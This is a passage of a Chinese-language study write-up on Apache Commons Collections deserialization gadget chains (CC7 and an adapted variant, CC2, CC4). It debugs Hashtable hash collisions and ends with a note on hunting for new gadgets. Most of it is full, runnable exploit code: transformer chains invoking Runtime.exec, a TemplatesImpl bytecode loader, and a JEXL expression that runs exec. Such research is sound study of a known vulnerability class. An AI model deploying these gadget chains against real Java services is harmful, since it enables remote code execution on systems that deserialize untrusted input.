Hashtable hashtable = new Hashtable();
hashtable.put(lazyMap1, "B");
hashtable.put(lazyMap2, "2B");
这里有几个点需要注意，e.key我们要利用最后肯定是lazymap，这里key是lazymap，值是lazyMap.put设置的

- hashCode()计算
这里一次i.next().hashCode()的值会进行key和value的hash值进行异或返回，然后把每对hash计算的结果加起来的总值返回（这里后面有用）


- index
这里index是hash和其他值计算的结果，但是我们要让这个index可控，因为第二次进入这个循环时e是去获取tab对应的index，要想得到上一次赋值的值，第二次进入reconstitutionPut时，index要和上一次相同，不然e就没有值
解决：
这里我们最好想到的一个值且好控制那肯定是0啊（因为异或所以也会联想到这个），hash为0及index也为0，这里我们上面分析过hashCode
所以Lazymap#put时，key和value设置成一样的就行了
问题9 hash
通过上面的处理，我们原以为可以打通链子了，但是实际上还是不行。我们发现第二次的hash并不为0
尽管这里index弄巧成拙是0，但是这次的hash还是会和上一次的hash进行校对要一样才会进行equals

其实，第二次的key中多了一个next，而hash正是因为第二对yy和1的hash值产生的偏差

- 这对值怎么来的呢
在第二次hashtable.put时会触发链子，

在hashtable.put中我们会看到和reconstitutionPut()几乎一样的逻辑
但是这里我们还是要保持hash值一样，不然后面还是利用不了

继续跟进，这里执行完后，没有报错所以不影响，之类会给第二个map，put第一个map的key和执行的结果1
这就是问题所在

*问题9 3解决
解决一
既然是map.put的问题，能让其不执行到这步就可以了呀
这里将lazyMap2.put("zz", "zz");调整顺序放到下面
在到java.util.AbstractMap.equals时，由于这里是第二个hashtable.put触发，m.size由于还没有put值，所以这里是0，而size()是计算上一个lazyMap1.put，值为1，这里就会return结束，从而也不会调用map.put。
完美解决了这个问题，而且序列化时也不会触发链子
解决二
添加一行lazyMap2.remove("yy");,既然是值的问题，我们把这个值删除了不就行了，这样hash就都是0了，序列化时会触发链子但是不影响反序列化
Map lazyMap1 = LazyMap.decorate(innerMap1, tmp);
lazyMap1.put("yy", "yy");
Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
lazyMap2.put("zz", "zz");
Hashtable hashtable = new Hashtable();
hashtable.put(lazyMap1, "B");
hashtable.put(lazyMap2, "2B");
lazyMap2.remove("yy");
*解决三 NO?
这里我们是要hash为0嘛，因为添加了个(yy,1)，我们分析知道这个value:1是固定，然后hash为0，感觉到了么，我们第1个put(1,1),后面添加的不就是(1,1)么,这对值的hash不也是0么
Map lazyMap1 = LazyMap.decorate(innerMap1, tmp);
lazyMap1.put(1, 1);
Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
lazyMap2.put("zz", "zz");
Hashtable hashtable = new Hashtable();
hashtable.put(lazyMap1, "B");
hashtable.put(lazyMap2, "2B");
结果是冷酷的，在equals中，到AbstractMap#equals，我们可以看看两个value值不相等才会返回false外面这个value是第一个lazyMap1.put的value，如果是上述代码的话这里就是1（这里截的是值为2的图），然后m.get返回的值又是1，这里就返回true
返回true的话，就会进入if，然后这里Hashtable也不会执行addEntry()添加值了，这里只会修改掉之前对应的value，这里将B修改成2B
hashtable.put(lazyMap1, "B");
hashtable.put(lazyMap2, "2B");
所以这里put用1是不行了，就这样结束了么？NO，竟然归根是addEntry()在添加，我们直接用这个方法添加不就行了，还绕过put()这层，反而跟解决一的思路一样了
Map lazyMap1 = LazyMap.decorate(innerMap1, tmp);
lazyMap1.put(1, 1);
Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
lazyMap2.put("zz", "zz");
Hashtable hashtable = new Hashtable();
hashtable.put(lazyMap1, "B");
//hashtable.put(lazyMap2, "2B");
//lazyMap2.remove(2);
Method addEntry = hashtable.getClass().getDeclaredMethod("addEntry", int.class, Object.class, Object.class, int.class);
addEntry.setAccessible(true);
addEntry.invoke(hashtable, 0, lazyMap2, "2B", 0);
poc
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.AbstractMapDecorator;
import org.apache.commons.collections.map.LazyMap;
import java.io.*;
import java.lang.reflect.Method;
import java.util.AbstractMap;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;
public class CC7_test {
public static void main(String[] args) throws Exception {
Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
new ConstantTransformer(1)
};
Transformer transformerChain = new ChainedTransformer(transformers);
Transformer tmp = new ConstantTransformer(1);
Map innerMap1 = new HashMap();
Map innerMap2 = new HashMap();
Map innerMap3 = new HashMap();
Map lazyMap1 = LazyMap.decorate(innerMap1, tmp);
lazyMap1.put(1, 1);
Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
lazyMap2.put("zz", "zz");
Hashtable hashtable = new Hashtable();
hashtable.put(lazyMap1, "B");
//hashtable.put(lazyMap2, "2B");
//lazyMap2.remove(2);
Method addEntry = hashtable.getClass().getDeclaredMethod("addEntry", int.class, Object.class, Object.class, int.class);
addEntry.setAccessible(true);
addEntry.invoke(hashtable, 0, lazyMap2, "2B", 0);
FileOutputStream fos = new FileOutputStream("bin");
ObjectOutputStream oos = new ObjectOutputStream(fos);
oos.writeObject(hashtable);
oos.close();
// 从文件中反序列化对象
FileInputStream fis = new FileInputStream("bin");
ObjectInputStream ois = new ObjectInputStream(fis);
ois.readObject();
ois.close();
}
}
存档2 改编CC7
Gadget chain:
java.util.Hashtable.readObject
java.util.Hashtable.reconstitutionPut
org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
org.apache.commons.collections.map.LazyMap.get()
ChainedTransformer.transform()
前面我们CC6不是也用了hashCode么，这里我们结合一下
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
public class CC7_2 {
public static void main(String[] args) throws Exception {
InvokerTransformer invokerTransformer2 = new InvokerTransformer("exec",new Class[]{String.class}, new Object[]{"calc"});
InvokerTransformer invokerTransformer1 = new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, null});
InvokerTransformer invokerTransformer = new InvokerTransformer("getMethod",new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",null});
ConstantTransformer constantTransformer = new ConstantTransformer(Runtime.class);
Transformer[] transformers=new Transformer[]{constantTransformer,invokerTransformer,invokerTransformer1,invokerTransformer2};
Transformer keyTransformer = new ChainedTransformer(transformers);
LazyMap fistrmap = (LazyMap) LazyMap.decorate(new HashMap(),keyTransformer);
fistrmap.put("fistrmap",1111);
TiedMapEntry tiedMapEntry = new TiedMapEntry(fistrmap,"fistrmap");
Hashtable hashtable = new Hashtable();
hashtable.put(tiedMapEntry, "B");
Field key = tiedMapEntry.getClass().getDeclaredField("key");
key.setAccessible(true);
key.set(tiedMapEntry,"kkkey");
FileOutputStream fos = new FileOutputStream("bin");
ObjectOutputStream oos = new ObjectOutputStream(fos);
oos.writeObject(hashtable);
oos.close();
// 从文件中反序列化对象
FileInputStream fis = new FileInputStream("bin");
ObjectInputStream ois = new ObjectInputStream(fis);
ois.readObject();
ois.close();
}
}
CommonsCollections2
0x02 环境
使用的是commons-collections-4.0版本，而3.1-3.2.1版本中TransformingComparator并没有去实现Serializable接口，也就是说这是不可以被序列化的，所以CC2不用3.x版本，且4版本过高也不行，InvokerTransformer会改为不实现Serializable接口，比如4.4版本
<dependency>
<groupId>org.apache.commons</groupId>
<artifactId>commons-collections4</artifactId>
<version>4.0</version>
</dependency>
利用链
/*
Gadget chain:
PriorityQueue.readObject()
PriorityQueue.heapify()
PriorityQueue.siftDown()
PriorityQueue.siftDownUsingComparator()
TransformingComparator.compare()
InvokerTransformer.transform()
Method.invoke()
Runtime.exec()
这里要size大于等于2才能进入for，poc设置下，其他跟着链子走就行了

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;
public class CC2 {
public static void main(String[] args) throws Exception {
Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
new ConstantTransformer(1)
};
Transformer transformerChain = new ChainedTransformer(transformers);
TransformingComparator transformingComparator = new TransformingComparator(transformerChain);
PriorityQueue priorityQueue = new PriorityQueue(2,transformingComparator);
Field size = priorityQueue.getClass().getDeclaredField("size");
size.setAccessible(true);
size.setInt(priorityQueue, 2);
FileOutputStream fos = new FileOutputStream("bin");
ObjectOutputStream oos = new ObjectOutputStream(fos);
oos.writeObject(priorityQueue);
oos.close();
// 从文件中反序列化对象
FileInputStream fis = new FileInputStream("bin");
ObjectInputStream ois = new ObjectInputStream(fis);
ois.readObject();
ois.close();
}
}
CommonsCollections4
cc4 就是将 cc2 的 InvokerTransformer 替换成了 InstantiateTransformer, 然后利用 TemplatesImpl 来执行字节码
上面CC2不是说了InvokerTransformer用不了嘛，4.4InstantiateTransformer也用不了hh尴尬，估计是解决4.0到4.4某个版本用不了InvokerTransformer创造的链子
就是CC2的开头+CC3结尾，没啥好说的。
/*
Gadget chain:
PriorityQueue.readObject()
PriorityQueue.heapify()
PriorityQueue.siftDown()
PriorityQueue.siftDownUsingComparator()
TransformingComparator.compare()
ChainedTransformer.transform()
ConstantTransformer.transform()
InstantiateTransformer.transform()
newInstance()
TrAXFilter#TrAXFilter()
TemplatesImpl.newTransformer()
TemplatesImpl.getTransletInstance()
TemplatesImpl.defineTransletClasses
newInstance()
Runtime.exec()
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;
public class CC4 {
public static void main(String[] args) throws Exception {
ClassPool pool = ClassPool.getDefault();
CtClass clazz = pool.get(Evil.class.getName());
byte[] code = clazz.toBytecode();
TemplatesImpl templates=new TemplatesImpl();
CC3.setFiled(templates,"_name","111");
CC3.setFiled(templates,"_bytecodes",new byte[][]{code});
//setFiled(templates,"_auxClasses",new Hashtable());
InstantiateTransformer invokerTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});
ConstantTransformer constantTransformer = new ConstantTransformer(TrAXFilter.class);
Transformer[] transformers=new Transformer[]{constantTransformer,invokerTransformer};
Transformer keyTransformer = new ChainedTransformer(transformers);
TransformingComparator transformingComparator = new TransformingComparator(keyTransformer);
PriorityQueue priorityQueue = new PriorityQueue(2,transformingComparator);
Field size = priorityQueue.getClass().getDeclaredField("size");
size.setAccessible(true);
size.setInt(priorityQueue, 2);
FileOutputStream fos = new FileOutputStream("bin");
ObjectOutputStream oos = new ObjectOutputStream(fos);
oos.writeObject(priorityQueue);
oos.close();
// 从文件中反序列化对象
FileInputStream fis = new FileInputStream("bin");
ObjectInputStream ois = new ObjectInputStream(fis);
ois.readObject();
ois.close();
}
}
到这里常规的CC链就完结了
0x03 存档挖掘
尝试挖掘，一开始是想看找commons-collections4.4依赖的链子的，查看发现（同时继承Serializable）可以用的并不多。
ClosureTransformer
public T transform(final T input) {
iClosure.execute(input);
return input;
}
ConstantTransformer
public O transform(final I input) {
return iConstant;
}
FactoryTransformer
public O transform(final I input) {
return iFactory.create();
}
IfTransformer
public O transform(final I input) {
if(iPredicate.evaluate(input)){
return iTrueTransformer.transform(input);
}
return iFalseTransformer.transform(input);
}
mapTransformer
public O transform(final I input) {
return iMap.get(input);
}
进行有些搜索，看到evaluate方法，可以执行JEXL表达式
很遗憾org.apache.commons.jexl3.internal.Script没有继承Serializable
String Exp = "233.class.forName('java.lang.Runtime').getRuntime().exec('calc')";
JexlEngine engine = new JexlBuilder().create();
JexlExpression Expression = engine.createExpression(Exp);
JexlContext Context = new MapContext();
Object rs = Expression.evaluate(Context);
目前CC链先到这里吧，然后其他的一些CC链绕过或者构造可以参考下这个SerialKiller绕过，不过基本都是替换中间gadget，没有源头和结尾的利用
参考：